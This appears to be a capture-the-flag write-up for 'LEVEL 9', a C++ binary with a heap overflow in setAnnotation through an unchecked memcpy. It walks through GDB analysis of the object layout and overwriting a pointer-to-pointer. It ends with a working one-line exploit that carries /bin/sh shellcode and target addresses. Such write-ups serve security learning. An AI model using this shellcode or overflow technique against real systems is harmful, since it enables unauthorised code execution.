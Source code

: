# LEVEL 9

## 💡 Explanation

In this level we have to:
1. Learn how to code in CPP LOL.
2. Check the main using GDB, we see a lot of weird things... It is coded in CPP; so actually to know that the functions are doing, we have to get inside of the function... bref
3. We see a call to a function `_Znwj@plt => new(unsigned int) ()` followed by a call to `_ZN1NC2Ei => N::N(int) ()`. Looks like a call to a CPP constructor followed by an assignation of the int received as an argument to a varible of the class.
4. Well, we continue a bit and we find a call to a weird fucntion `_ZN1N13setAnnotationEPc => N::setAnnotation(char*) ()`. It looks pretty much as a setter (a modifier function) which is going to set to the class variable `annotation` whatever it is passed as an argument. Getting inside of the function we see that it calls to `strlen` and then to `memcpy`, passing the result of `strlen` as an argument... 0 protection, easily exploitable! Trying a couple of things, we discover that the string that is passed to the function as an argument is the first argument that we pass to the program!
5. Now, since `memcpy` copies on the heap, we cannot access the EIP, and we cannot do any weird thing to get to change the GOT. BUT! After looking closer to how the two objects are stored in memory (breakpoint after memcpy, having passed a bunch of As == 61) we can see that the first 4 bytes are used to store a pointer to an instruction, then there's a lot of bytes (from 0x804a00c until 0x804a068) to store the variable "annotation", next 4 more bytes which store the value of the number we put before and last 4 bytes that have something that we don't care.
6. Concluding, we can use the overflow of `memcpy` to write up to the address pointed by the first 4 bytes of the second object, so when it is used it'll reference an addres that we have written. This is pretty tricky because it is not a single pointer, it is a pointer to a pointer. Therefore, we'll have to put an address (1st pointer) and then on that address put the reference to our shellcode (2nd pointer). Voilà
7. The exploit has to be built like: [ADDRESS TO THE SHELLCODE => 2ND PTR][SHELLCODE][RANDOM BYTES][ADDRESS TO THE 2ND PTR => 1ST POINTER]. This is pure bricolage... We created a pattern, but then we cannot search for the pattern because it is not on the stack, so we check what do we have on memory where it crashed and calculate the lenght up to that point which is 108 bytes. Now, or shellcode is 45, and we also need 4 bytes for the address:=> 108 - 45 - 4 = 59.

## 👾 Commands

To find the solution:
```
[GDB] b *0x0804867c
[GDB] x/56xw 0x804a008
[GDB] pattern create 200
[GDB] run <created_patter>
```

To execute the solution:
- `/home/user/level9/level9 $(python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"')`
